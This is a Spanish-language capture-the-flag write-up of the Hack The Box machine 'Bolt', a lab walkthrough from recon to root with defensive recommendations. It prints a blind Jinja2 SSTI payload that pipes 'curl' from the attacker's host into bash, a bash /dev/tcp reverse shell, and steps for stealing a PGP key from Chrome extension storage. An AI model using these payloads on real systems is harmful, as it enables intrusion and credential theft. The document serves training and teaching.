# Bolt — Hack The Box

**Plataforma:** Hack The Box
**Dificultad:** 🟡 Medio
**SO:** Linux
**Autor de la máquina:** No confirmado en las capturas (dato de HTB no verificado con certeza)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Gobuster (vhosts) · Análisis de imagen Docker (capas) · SQLite · John the Ripper · Revisión de código fuente (invite code hardcodeado) · SSTI ciego en Jinja2 (RCE) · Passbolt (secretos PGP) · Extracción de clave privada desde extensión de Chrome · Cracking de passphrase PGP → root

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — SSTI ciego en Jinja2 vía invite code filtrado en una imagen Docker](#3-acceso-inicial--ssti-ciego-en-jinja2-vía-invite-code-filtrado-en-una-imagen-docker)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Como siempre, empezamos comprobando que el objetivo responde y usando el TTL del ping para intuir el sistema operativo:

```bash
ping -c 1 10.129.33.254
```



Un TTL de **63** apunta de nuevo a una máquina **Linux** (TTL de partida 64, restado en un salto).

Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.33.254 -oN AllPorts
```



Con **22, 80 y 443** abiertos, lanzamos el escaneo de versión y scripts por defecto:

```bash
nmap -sCV -T5 -p22,80,443 10.129.33.254 -oN Ports
```



| Parámetro | Función |
|-----------|---------|
| `-sS` | Escaneo SYN sigiloso |
| `-Pn` | Omite el descubrimiento de host por ping |
| `--min-rate 5000` | Acelera el envío de paquetes |
| `-sCV` | Scripts por defecto + detección de versión |

> 💡 El dato más valioso de este escaneo no es un puerto, sino un campo del **certificado TLS del puerto 443**: `commonName=passbolt.bolt.htb`. El certificado revela un **vhost** que ni siquiera habíamos buscado todavía — `nginx 1.18.0` sirve tanto `bolt.htb` (título "Starter Website") como, en HTTPS, un segundo sitio llamado **Passbolt** ("Open source password manager for teams").

Añadimos los dominios ya conocidos a `/etc/hosts`:

```
10.129.33.254   bolt.htb passbolt.bolt.htb
```



## 2. Enumeración del servicio web

Con dos vhosts confirmados por el certificado, sospechamos que puede haber más. Lanzamos un descubrimiento de vhosts con Gobuster usando un diccionario de subdominios comunes:

```bash
sudo gobuster vhost -t 200 --url http://bolt.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```



| Parámetro | Función |
|-----------|---------|
| `vhost` | Modo de enumeración de virtual hosts de Gobuster |
| `--append-domain` | Añade el dominio base a cada palabra del diccionario antes de probarla como `Host:` |

Aparecen dos vhosts nuevos: **`demo.bolt.htb`** (redirige a `/login`) y **`mail.bolt.htb`**. Los añadimos también a `/etc/hosts`:

```
10.129.33.254   bolt.htb passbolt.bolt.htb demo.bolt.htb mail.bolt.htb
```



Visitamos cada uno de los cuatro sitios para hacernos una idea del terreno:

**`bolt.htb`** es una landing page ("Administration using Admin LTE") que anuncia una aplicación de administración personalizada basada en el tema **AdminLTE**:



**`demo.bolt.htb`** es el login de esa aplicación AdminLTE:



**`mail.bolt.htb`** es un webmail (Roundcube-like) para el dominio `bolt.htb`:



Y **`passbolt.bolt.htb`** ofrece descargar una **imagen Docker** de la aplicación Passbolt "gratis":



## 3. Acceso inicial — SSTI ciego en Jinja2 vía invite code filtrado en una imagen Docker

Descargamos la imagen Docker (`image.tar`) y la extraemos para inspeccionar sus capas manualmente, sin necesidad de tener Docker corriendo:

```bash
tar -xf image.tar
ls -la
```



Cada subcarpeta con nombre hash corresponde a una **capa** de la imagen, y cada una contiene su propio `layer.tar`. En vez de extraerlas todas, listamos el contenido de cada `layer.tar` con `7z` para localizar rápidamente algo interesante:

```bash
for file in $(tree -fas | grep "layer.tar" | awk 'NF{print $NF}'); do echo -e "\n[+] Listando contenido $file"; 7z l $file; done | less -S
```



> 💡 Buscando ficheros que podemos escribir y probando fichero a fichero, encontramos una capa que contiene un **`db.sqlite3`** — la base de datos de la propia aplicación Passbolt de demostración.



Extraemos específicamente esa capa:

```bash
cd $(dirname ./a4ea7da8de7bfbf327b56b0cb794aed9a8487d31e588b75029f6b527af2976f2/layer.tar)
```



```bash
tar -xf layer.tar
ls -la
```



Con `db.sqlite3` ya disponible, lo abrimos y consultamos la tabla de usuarios:

```bash
sqlite3 db.sqlite3
sqlite> select * from User;
```



Obtenemos un hash de contraseña para el usuario `admin` (`admin@bolt.htb`). Intentamos crackearlo con John:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt credenciales
```



> 💡 Encontramos una contraseña, pero no nos servirá de mucho todavía: es la del `admin` de la base de datos de **demostración** empaquetada en la imagen Docker, no necesariamente la del sitio real `demo.bolt.htb`. Seguimos investigando otras vías.

En paralelo, en `demo.bolt.htb` vemos que **podemos crear una cuenta**:



Si inspeccionamos el formulario, el campo requiere un **código de invitación** (`invite_code`):



Lo buscamos con `grep` sobre todas las capas de la imagen Docker y aparece en varios lugares:

```bash
grep -r -i "invite_code" --text
```



Una de las coincidencias señala una capa mucho más grande (60 MB) que probablemente contiene el **código fuente completo** de la aplicación:

```bash
cd $(dirname 41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad/layer.tar)
```



La extraemos y repetimos la búsqueda, esta vez sobre ficheros de texto ya extraídos:

```bash
tar -xf layer.tar
ls -la
grep -r -i "invite_code" --text
```



Esto localiza el código relevante en `app/base/routes.py`, `app/base/forms.py` y la plantilla `templates/accounts/register.html`. Revisamos el fichero de rutas:

```bash
cat app/base/routes.py
```



Y ahí está: el código de invitación está **hardcodeado directamente en el código fuente**, comparado en texto plano contra el valor enviado por el usuario:

```python
code = request.form['invite_code']
if code != 'XNSS-HSJW-3NGU-8XTJ':
    return render_template('code-500.html')
```



> 💡 Este es el fallo de diseño clave: un código de invitación que debería ser secreto y gestionado dinámicamente está fijo en el código fuente que se distribuye libremente dentro de la imagen Docker de "demostración". Cualquiera que descargue esa imagen puede crear una cuenta en el sitio real.

Con el código en mano, registramos una cuenta (`arabot`) en `demo.bolt.htb` y accedemos:



## 4. Obtención de shell

Tras iniciar sesión llegamos al panel **AdminLTE**, con un perfil de usuario de ejemplo (actividad, seguidores, fotos — contenido de plantilla, no real):




Como nos registramos con `arabot@bolt.htb`, revisamos también el correo en `mail.bolt.htb`:



En la pestaña **Settings** del perfil hay un campo **Name** que, según el propio formulario, requiere verificación por correo antes de aplicarse. Probamos si ese campo es vulnerable a **Server-Side Template Injection (SSTI)** con la clásica prueba matemática:

```
{{7*7}}
```



Al enviar el formulario llega un correo pidiendo confirmar el cambio:



Al pulsar el enlace de confirmación, el cambio se aplica **en el servidor**, fuera de la vista directa del navegador — es un SSTI **ciego**. Confirmamos que el motor de plantillas evaluó la expresión revisando el correo de confirmación resultante, que muestra el valor `49`:



> 💡 `7*7 = 49` confirma que el campo `Name` se está renderizando como plantilla **Jinja2** en el servidor (Flask), y que además se ejecuta de forma asíncrona al confirmar el correo, no al enviar el formulario — de ahí que sea SSTI ciego.

Consultamos la referencia de PayloadsAllTheThings para SSTI en Jinja2 y RCE:



Preparamos un script `index.html` con una reverse shell en Bash, para servirlo por HTTP y que la víctima lo descargue y ejecute con `curl | bash`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.200/443 0>&1
```



Lo servimos con un servidor HTTP simple:

```bash
python3 -m http.server 80
```



Y ponemos como payload en el campo **Name** una de las variantes de bypass para Jinja2 que no dependen de `__builtins__` (útil si esa palabra está filtrada), ejecutando el `curl` hacia nuestro servidor y canalizándolo a `bash`:

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl http://10.10.14.200:80 | bash').read() }}
```



Levantamos el listener antes de confirmar el correo:

```bash
nc -lvnp 443
```

Enviamos el formulario, revisamos el correo de confirmación en `mail.bolt.htb`:



Y al pulsar el enlace de confirmación, el servidor ejecuta el `curl | bash` y el listener recibe la conexión:



Obtenemos una shell como **`www-data`**.

### Escalada de privilegios

Recordando que había una aplicación **Passbolt** real (no solo la de demostración) en `passbolt.bolt.htb`, buscamos su configuración en el sistema:

```bash
cd /etc/
ls
cd passbolt/
ls
cat passbolt.php
```



El fichero de configuración contiene las **credenciales de la base de datos**:

```php
'username' => 'passbolt',
'password' => 'rT2;jW7<eY8!dX8}pQ8%',
'database' => 'passboltdb',
```



Nos conectamos a MySQL con esas credenciales:

```bash
mysql -upassbolt -p
mysql> show databases;
```



```sql
show tables;
```



Entre las 25 tablas de `passboltdb` hay una llamada **`secrets`** — el corazón de un gestor de contraseñas. La consultamos:

```sql
select * from secrets;
```



El campo `data` contiene un **mensaje PGP cifrado**. Al ser Passbolt un gestor de contraseñas basado en OpenPGP, cada secreto se cifra con la clave pública de su propietario — necesitaremos la **clave privada correspondiente** para leerlo. Guardamos el bloque cifrado en un fichero:



En `/home` encontramos dos usuarios del sistema:

```bash
cd /home/
ls
```



Probamos la misma contraseña de la base de datos de Passbolt contra el usuario `eddie`, y funciona:

```bash
su eddie
```



Revisando el correo local del sistema (`/var/mail/`), encontramos un mensaje de **Clark** para **Eddie** sobre el propio Passbolt:

```bash
cd /var/mail/
ls
cat eddie
```



> 💡 El correo de Clark advierte a Eddie de que **haga copia de seguridad de su clave privada**, porque no se puede recuperar. Esto es una pista fuerte: la clave privada de Eddie debe estar en algún sitio de su sistema local, probablemente en el navegador donde instaló la extensión de Passbolt.

Buscando en el perfil de Chrome de Eddie encontramos una carpeta con varios diccionarios de palabras (usados internamente por Chrome para medir la fortaleza de contraseñas, vía la librería `zxcvbn`) — estos nos servirán más adelante como wordlist:

```bash
cd ~/.config/google-chrome/ZxcvbnData/1
ls -la
```



Y en la carpeta de almacenamiento local de la **extensión de Passbolt** (identificada por su ID de extensión) hay ficheros de log de LevelDB:

```bash
cd ~/.config/google-chrome/Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf
ls -la
```



Buscamos directamente la cadena `PRIVATE KEY` dentro de esos logs:

```bash
strings 000003.log | grep "PRIVATE KEY"
```



Y aparece un blob JSON enorme con los metadatos de la cuenta de Eddie en Passbolt (`Eddie Johnson`, `eddie@bolt.htb`) y, dentro de él, su **clave privada PGP completa**, con los saltos de línea escapados como `\r\n` (típico de JSON serializado):



Copiamos ese bloque a un fichero y, con `vim`, deshacemos el escapado para reconstruir el formato PGP real:

```
:%s/\\r\\n/\r\n/g
```



El resultado es una clave privada PGP con el formato correcto:



La clave está protegida por una **passphrase**. Convertimos la clave a un formato crackeable por John con `gpg2john`:

```bash
gpg2john private.key > hash
```



Y la atacamos con el diccionario de contraseñas de Chrome que habíamos encontrado antes en la carpeta `ZxcvbnData`:

```bash
john --wordlist=passwords.txt hash
```



> 💡 De nuevo se repite el patrón de esta máquina: cada pista deja una miga de pan para la siguiente. El propio navegador de Eddie almacenaba, sin relación aparente, tanto la clave privada cifrada como una lista de palabras que termina siendo la wordlist perfecta para crackear la passphrase de esa misma clave.

Con la passphrase crackeada, descifrarnos el mensaje PGP que habíamos extraído de la tabla `secrets` de Passbolt:

```bash
gpg -d mensaje.priv
```



Se solicita la passphrase de la clave de Eddie mediante el prompt gráfico de `pinentry`:



Y el mensaje se descifra, revelando un secreto en formato JSON con una **contraseña**:

```json
{"password":"Z(2rmxsNW(Z?3=p/9s)","description":""}
```



Probamos esa contraseña con el usuario `root`:

```bash
su root
```



`id` confirma acceso como **root** (`uid=0`).

## 5. Post-explotación y flags

Con shell de root confirmada (`root@bolt:/etc/passbolt# id` → `uid=0(root) gid=0(root) groups=0(root)`), el compromiso total del sistema queda acreditado. Las capturas disponibles no incluyen la lectura explícita de `user.txt` ni `root.txt`, por lo que no se documentan aquí sus contenidos.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Vhosts adicionales revelados por el `commonName` del certificado TLS | Puerto 443 | Expone dominios internos (`passbolt.bolt.htb`) no descubribles por fuzzing de directorios |
| Imagen Docker "de demostración" distribuida públicamente con datos y código reales | `passbolt.bolt.htb/download` | Filtra la base de datos de ejemplo y, más grave, el **código fuente completo** de la aplicación |
| Código de invitación de registro hardcodeado en el código fuente | `app/base/routes.py` | Cualquiera que acceda al código puede registrar una cuenta válida sin invitación real |
| SSTI (Server-Side Template Injection) en Jinja2 en un campo de perfil | `demo.bolt.htb` → `Settings → Name` | Ejecución remota de comandos (RCE) en el servidor con los privilegios del proceso web |
| Clave privada PGP del usuario expuesta en el almacenamiento local de la extensión del navegador | `~/.config/google-chrome/.../Local Extension Settings/<id-passbolt>` | Cualquier atacante con acceso al sistema de ficheros del usuario puede robar su identidad criptográfica completa |
| Passphrase débil protegiendo la clave privada PGP | Clave de Eddie | Crackeable con diccionarios genéricos en un tiempo razonable |
| Reutilización de la contraseña de la base de datos de Passbolt en una cuenta del sistema (`eddie`) | Usuario `eddie` | Permite movimiento lateral desde `www-data` a un usuario real del sistema |

## Recomendaciones defensivas

- Nunca distribuir imágenes Docker de "demostración" que contengan código fuente de producción o datos reales — usar builds separados y sin secretos para material público.
- No hardcodear secretos (códigos de invitación, tokens, claves) en el código fuente; deben generarse y almacenarse de forma dinámica y auditable.
- Sanitizar y evitar renderizar directamente como plantilla cualquier input de usuario (usar `render_template` con variables, nunca construir la plantilla a partir del input).
- Limitar y monitorizar las llamadas salientes del servidor (egress filtering) para dificultar la explotación de SSTI/RCE mediante `curl`/descargas externas.
- No confiar en el almacenamiento local del navegador para guardar claves privadas sin cifrado adicional a nivel de sistema operativo (cifrado de disco, keychain del SO).
- Forzar passphrases robustas y únicas en las claves PGP, igual que en cualquier otra credencial.
- No reutilizar contraseñas de servicios (bases de datos, aplicaciones) como contraseñas de cuentas de sistema operativo.
- Auditar periódicamente qué usuarios del sistema pueden autenticarse con `su`/`sudo` y revisar el historial de credenciales compartidas.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
